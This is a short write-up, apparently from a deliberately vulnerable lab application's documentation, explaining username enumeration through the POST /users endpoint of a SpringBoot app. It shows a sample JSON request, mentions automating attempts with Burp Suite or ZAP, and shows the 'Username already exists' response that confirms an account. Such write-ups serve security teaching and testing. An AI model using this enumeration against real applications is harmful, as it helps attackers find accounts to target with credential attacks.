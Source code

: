 # Brute-Force Valid Username
A type of brute force attack that finds valid usernames (usernames of existing accounts) not belonging to the attacker.

## Exploitation
**Prerequisites:** _None_

**Location:** _POST /users_

Brute-Force valid username present within SpringBoot code by application returning if the username belongs to an existing account.  Below is an exploitation example:

    POST /users
    raw:
    {
        "username" : "admin",
        "password" : "password"
    }
    
Burp Suite, ZAP, or equivalent technologies can be used to automate brute-forcing attempts against the web application using the general format above.

Successful exploitation looks like:

    {
        "success": false,
        "code": 400,
        "message": "Username already exists"
    }
